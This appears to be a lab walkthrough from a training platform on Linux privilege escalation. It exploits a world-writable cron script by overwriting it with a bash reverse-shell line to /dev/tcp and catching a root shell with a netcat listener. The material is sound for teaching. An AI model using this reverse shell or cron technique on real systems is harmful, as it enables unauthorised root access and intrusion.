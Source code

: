Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:

`cat /etc/crontab`

![[Pasted image 20240222224446.png]]

There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:

`locate overwrite.sh`

![[Pasted image 20240222225445.png]]

Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

![[Pasted image 20240222225524.png]]

Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

![[Pasted image 20240222225834.png]]

![[Pasted image 20240222225808.png]]


Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?

`nc -nvlp 4444`

![[Pasted image 20240222225934.png]]

Remember to exit out of the root shell and remove the reverse shell code before continuing!  

Answer the questions below

Read and follow along with the above.